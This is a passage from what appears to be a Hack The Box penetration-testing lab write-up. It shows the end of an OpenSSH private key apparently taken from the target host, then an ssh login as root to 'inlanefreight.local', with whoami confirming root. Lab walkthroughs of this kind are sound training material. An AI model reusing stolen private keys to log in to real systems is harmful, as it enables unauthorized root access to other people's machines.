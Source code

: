 ```bash
nuj+bd44Y4cB5RIANdKBxGRsf8UGvo3wdgi4JIc/QR9QfV59xRMAMtFZtAGZ0hTYE1HL/8
sIl4hRY4JjIw+plv2zLi9DDcwti5tpBN8ohDMA15VkMcOslG69uymfnX+MY8cXjRDo5HHT
M3i4FvLUv9KGiONw94OrEX7JlQA7b5AAAAwQDihl6ELHDORtNFZV0fFoFuUDlGoJW1XR/2
n8qll95Fc1MZ5D7WGnv7mkP0ureBrD5Q+OIbZOVR+diNv0j+fteqeunU9MS2WMgK/BGtKm
41qkEUxOSFNgs63tK/jaEzmM0FO87xO1yP8x4prWE1WnXVMlM97p8osRkJJfgIe7/G6kK3
9PYjklWFDNWcZNlnSiq09ZToRbpONEQsP9rPrVklzHU1Zm5A+nraa1pZDMAk2jGBzKGsa8
WNfJbbEPrmQf0AAAALcm9vdEB1YnVudHU=
-----END OPENSSH PRIVATE KEY-----
```

Using this, let's try logging-in through `ssh`.
Before that, I need to change the permission to `600`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh -i root.priv root@inlanefreight.local
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 26 Dec 2024 03:38:26 AM UTC

  System load:                      0.02
  Usage of /:                       93.0% of 13.72GB
  Memory usage:                     71%
  Swap usage:                       0%
  Processes:                        469
  Users logged in:                  1
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.229.147
  IPv6 address for ens160:          dead:beef::250:56ff:feb0:c480
  IPv4 address for ens192:          172.16.8.120

  => / is using 93.0% of 13.72GB


82 updates can be applied immediately.
16 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Mar  8 09:55:50 2024
root@dmz01:~# whoami
root
```
